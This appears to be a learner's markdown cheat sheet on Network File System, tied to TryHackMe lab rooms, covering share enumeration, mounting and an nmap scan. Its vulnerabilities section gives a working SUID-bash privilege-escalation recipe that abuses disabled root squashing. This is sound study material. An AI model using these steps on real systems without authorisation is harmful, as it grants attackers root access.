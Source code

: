 # Network File System (NFS)

[![networkservices2](../../../cybersecurity/_badges/thmp/networkservices2.svg)](https://tryhackme.com/room/networkservices2)

<div class="row row-cols-md-2 mt-2"><div>

Network File System (NFS) is a protocol allowing a computer to mount a remote folder on its local file system.

🐊️ **Port**: 2049 (TCP)

Remote Procedure Calls (RPC) are used to exchange with the server.

**List mounts** 🗺️

```ps
$ showmount -e IP
# see NFS exports
$ cat /etc/exports
```
</div><div>

**Mount/Unmount** 🤘

The command below will mount the remote folder `/share` inside `/tmp/share` on our machine. It means that when we browse `/tmp/share`, we will see the files inside `/share` on the remote host.

```ps
#  sudo apt install nfs-common
$ mkdir /tmp/share
$ sudo mount -t nfs IP:/share /tmp/share/ -nolock
# there is also variants (with/without vers=2): 
# sudo mount -o rw,vers=2 IP:/share /tmp/share/
# unmount
$ sudo umount /tmp/share
```
</div></div>

<hr class="sep-both">

## NFS vulnerabilities ☠️

[![linprivesc](../../../cybersecurity/_badges/thm/linprivesc.svg)](https://tryhackme.com/room/linprivesc)
[![linuxprivesc](../../../cybersecurity/_badges/thm/linuxprivesc.svg)](https://tryhackme.com/room/linuxprivesc)
[![kenobi](../../../cybersecurity/_badges/thm-p/kenobi.svg)](https://tryhackme.com/room/kenobi)

<div class="row row-cols-md-2"><div>

* It's possible to use `nmap` to get information about NFS shares:

```ps
$ nmap IP -p 2049 --script=nfs-ls,nfs-statfs,nfs-showmount
```
</div><div>

* When **root_squashing** is disabled, a local root user is mapped to the remote root user, allowing them to create [SUID](/cybersecurity/red-team/s4.privesc/linux/perms.md#suidguid-bit) files.

```bash
# on the remote host, we create a bash inside the share
$ cp /bin/bash /share/sbash
# on the local host
# we give the file root privileges
$ sudo chown root /tmp/share/sbash
$ sudo chmod +s /tmp/share/sbash
# Then on the host, running the SUID file
# will run it as root
$ /share/sbash -p
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-md-2"><div>

NFS

* nfs-utils
* rpcinfo
* nfsstat
* nfswatch
* DoS
</div><div>
</div></div>